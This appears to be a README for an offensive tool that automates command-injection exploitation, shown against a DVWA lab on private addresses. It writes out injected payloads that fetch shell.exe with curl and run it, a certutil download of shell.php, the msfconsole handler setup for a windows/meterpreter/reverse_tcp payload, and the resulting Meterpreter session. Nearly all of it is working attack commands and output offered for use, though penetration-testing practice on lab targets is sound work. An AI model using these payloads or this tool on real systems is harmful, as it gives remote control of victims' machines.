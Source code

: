 certutil -urlcache -f http://192.168.0.112/shell.php shell.php

## My Tool

This tool can be utilised when attacker has found a field with command injection possible.  It will automate the process and will provide you with a meterpreter shell.

- You'll need a **webserver** running at **port 80** in same directory as script. (tool will prompt you).
- You'll need **msfvenom** and **msfconsole** installed.

### Usage

```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444


usage: command_inejction.py [-h] [-p PARAM] [-t TARGET] [-u URL] [-c COOKIES]
                            [-m METHOD] [-lh LHOST] [-lp LPORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PARAM, --param PARAM
                        Param: -p Submit:Submit;Login:Login;
  -t TARGET, --target TARGET
                        Target Param: -t ip
  -u URL, --url URL     URL: -u http://127.0.0.1/
  -c COOKIES, --cookies COOKIES
                        Cookies: -c PHPSESSID:f8ucrbu0qmta4ettc3208gcvnq&
                        security:low
  -m METHOD, --method METHOD
                        Method: -m get OR -m POST
  -lh LHOST, --LHOST LHOST
                        LHOST: -lh 192.168.0.112
  -lp LPORT, --LPORT LPORT
                        LPORT: -lp 8080
```

### Step 1
- Run the program.
```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444
```
- Output
```
[+] You'll need to host a web server at 192.168.0.111:4444 at path /home/baba/GitHub/ethical-hacking-scripts/BugBountyHunter/Automation/command_injection.
[...] sudo python3 -m http.server 80
[*] Hit enter once done... 
```
### Step 2
- Start a web server in same directory as command_injection.py.
```
sudo python3 -m http.server 80
```
- Hit Enter

```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |curl 192.168.0.111/shell.exe -o shell.exe
[+] You'll need to start a handler at LHOST:192.168.0.111, LPORT:4444 in msfconsole. 
        Set Payload to windows/meterpreter/reverse_tcp. Set RHOST to 
[*] Hit enter once done... 
```
### Step 3
- Start metasplpoit and multi/handler.
```
msfconsole

msf6 > use multi/handler  
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf6 exploit(multi/handler) > set LHOST 192.168.0.111
LHOST => 192.168.0.111

msf6 exploit(multi/handler) > run  
  
[*] Started reverse TCP handler on 192.168.0.111:4444

```
- Hit Enter
```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |shell.exe
```
- We have shell
```
[*] Sending stage (175174 bytes) to 192.168.0.104  
[*] Meterpreter session 1 opened (192.168.0.111:4444 -> 192.168.0.104:50322) at 2021-01-18 20:04:17 +0530  
  
meterpreter > 
```

- Finally, when you exit or close the session. It will remove all the files created for it to work.

```
[-] Cleaning up...
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |del shell.exe

```